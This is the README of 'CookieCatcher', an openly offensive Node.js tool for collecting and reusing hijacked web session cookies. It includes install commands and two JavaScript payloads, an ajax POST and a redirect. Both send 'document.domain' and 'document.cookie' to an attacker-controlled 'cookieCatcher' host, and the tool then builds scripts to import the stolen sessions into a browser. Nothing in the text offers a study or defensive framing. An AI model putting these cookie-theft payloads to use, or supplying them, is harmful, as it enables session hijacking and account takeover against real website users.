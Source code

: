 # CookieCatcher (version. 0.0.1)
This is a mini and simple API REST for management of Web sessions that were hijacked.

<center><img src="http://2.bp.blogspot.com/-1H9hR_zOsP8/VTflh5wSpEI/AAAAAAAAAPs/MoLPDkpRRuI/s1600/Screen%2BShot%2B2015-04-22%2Bat%2B1.18.09%2BPM.png"></center>

### Features (that is simple)
- Capture request through GET, POST, HEAD, OPTIONS, DELETE, PUT or PATCH (methods)
- Parse to cookies format
- Create script to import into your browser



### How to install this little devil?
##### Require
 - nodejs 0.10+

```sh
$ git https://github.com/JavaGarcia/CookieCatcher.git
$ cd CookieCatcher
$ npm install
$ sudo DEBUG=APIcookies:* ./bin/www
```

### Scheme to send requests
Example with ajax (POST or GET)
```javascript
$.ajax({
        type: "POST",//or GET
        url: "http://cookieCatcher/session",//obviously change (cookieCatcher).
        data:"domain="+document.domain+"&cookie="+document.cookie,
        success: function(datos){/*if you want to show something.*/}
});
```
Normal request GET (redirect)
```javascript
document.location.href="http://cookieCatcher/session/"+document.domain+"/"+document.cookie;
```
You can see the file: example.html

#### Made with love in Colombia.
# License:

CookieCatcher is licensed under the GPLv3: http://www.gnu.org/licenses/gpl-3.0.html. 

